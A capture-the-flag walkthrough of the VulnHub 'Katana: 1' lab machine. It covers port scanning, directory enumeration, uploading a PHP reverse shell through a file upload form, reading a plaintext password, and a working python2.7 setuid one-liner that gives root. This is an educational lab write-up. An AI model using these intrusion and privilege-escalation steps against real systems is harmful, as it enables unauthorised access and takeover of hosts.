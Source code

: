 # VulnHub > Katana 1

**About Release**

* Name: Katana: 1
* Date release: 13 May 2020
* Author: SunCSR Team
* Series: Katana
* Difficulty: Intermediate
* Tested: VMware Workstation 15.x Pro

**Description**

* Goal: Get the root shell and then obtain flag under `/root`.
* Warning: Be careful with "rabbit hole".

**Download**

* katana.zip (Size: 1.1 GB)
* Download: https://drive.google.com/file/d/1qUAH1fbX9BOu7Z25u8xSc87_dQH2KWDK/view?usp=sharing
* Download (Mirror): https://download.vulnhub.com/katana/katana.zip
* Download (Torrent): https://download.vulnhub.com/katana/katana.zip.torrent ([Magnet](magnet:?xt=urn:btih:C4E8ABA2426E3D8BF56FE5AF90820DE32B45CB44&dn=katana.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

# Services Enumeration

A Nmap full scan will discover many open ports:

~~~
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_ssl-date: 2020-10-02T05:32:56+00:00; -1s from scanner time.
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h00m00s, median: 0s
|_nbstat: NetBIOS name: KATANA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: katana
|   NetBIOS computer name: KATANA\x00
|   Domain name: \x00
|   FQDN: katana
|_  System time: 2020-10-02T01:32:53-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-02T05:32:53
|_  start_date: N/A
~~~

# FTP and Samba

Starting with FTP and Samba shares will be fast. FTP doesn't allow anonymous access and there are no public network shares.

# Web

Enumerating the web services with `gobuster` will reveal several locations, but many of them are rabbit holes.

Focusing on interesting resources, there is an interesting upload form available on port 8088:

~~~
kali@kali:~$ gobuster dir -k -u http://katana.box:8088/ -x htm,html,php,txt,bak,old,tar,zip,gz -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://katana.box:8088/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,bak,old,tar,htm,php,gz,html,zip
[+] Timeout:        10s
===============================================================
2020/10/02 07:52:32 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/blocked (Status: 301)
/cgi-bin (Status: 301)
/css (Status: 301)
/docs (Status: 301)
/error404.html (Status: 200)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/protected (Status: 301)
/upload.html (Status: 200) <---------- upload form
/upload.php (Status: 200)
===============================================================
2020/10/02 07:52:37 Finished
===============================================================
~~~

# Reverse shell

Let's upload a PHP reverse shell and start a listener locally (`rlwrap nc -nlvp 4444`):

![upload-revshell.png](files/upload-revshell.png)

We are provided with the remote file name: `katana_revshell.php`, but the file doesn't seem to be served by port 8088. Searching the remote file on other ports reveals that we can access it via port 8715. Browsing the following URL will spawn a reverse shell in our listener window:

~~~
curl http://katana.box:8715/katana_revshell.php
~~~

# Lateral move (www-data -> katana)

Searching for users in the `/home` directory will reveal the existence of a user named `katana`. Credentials are disclosed in a hidden `.ssh_passwd` file:

~~~
www-data@katana:/home/katana$ ls -la /home/katana
ls -la /home/katana
total 28
drwxr-xr-x 3 katana katana 4096 May 11 12:20 .
drwxr-xr-x 3 root   root   4096 May 11 09:33 ..
-rw-r--r-- 1 katana katana  220 May 11 09:33 .bash_logout
-rw-r--r-- 1 katana katana 3526 May 11 09:33 .bashrc
drwx------ 3 katana katana 4096 May 11 11:57 .gnupg
-rw-r--r-- 1 katana katana  807 May 11 09:33 .profile
-rw-r--r-- 1 root   root     19 May 11 11:52 .ssh_passwd
www-data@katana:/home/katana$ cat /home/katana/.ssh_passwd
cat /home/katana/.ssh_passwd
katana@katana12345
~~~

However, the connection as `katana` against the SSH service fails:

~~~
kali@kali:/data/katana/files$ sshpass -p "katana12345" ssh katana@katana.box
Permission denied, please try again.
~~~

Let's switch user instead:

~~~
www-data@katana:/home/katana$ su katana
su katana
Password: katana12345

katana@katana:~$ id
id
uid=1000(katana) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
~~~

# Privilege escalation

Running `linpeas.sh` on the target will reveal that python2.7 has suid capabilities:

~~~
katana@katana:/$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) confirms that we can take advantage of it to elevate our privileges:

~~~
katana@katana:/$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:/# id
id
uid=0(root) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
~~~

# Root flag

Let's get the root flag:

~~~
root@katana:/# cd /root
cd /root
root@katana:/root# ls -la
ls -la
total 44
drwx------  4 root root 4096 May 11 12:04 .
drwxr-xr-x 18 root root 4096 May 11 09:31 ..
-rw-------  1 root root  563 May 11 12:09 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11 11:39 .gnupg
drwxr-xr-x  3 root root 4096 May 11 09:54 .local
-rw-------  1 root root  155 May 11 10:48 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   22 May 11 12:04 root.txt
-rw-r--r--  1 root root   66 May 11 10:41 .selected_editor
-rw-r--r--  1 root root  209 May 11 10:52 .wget-hsts
root@katana:/root# cat root.txt
cat root.txt
{R00t_key_Katana_91!}
~~~
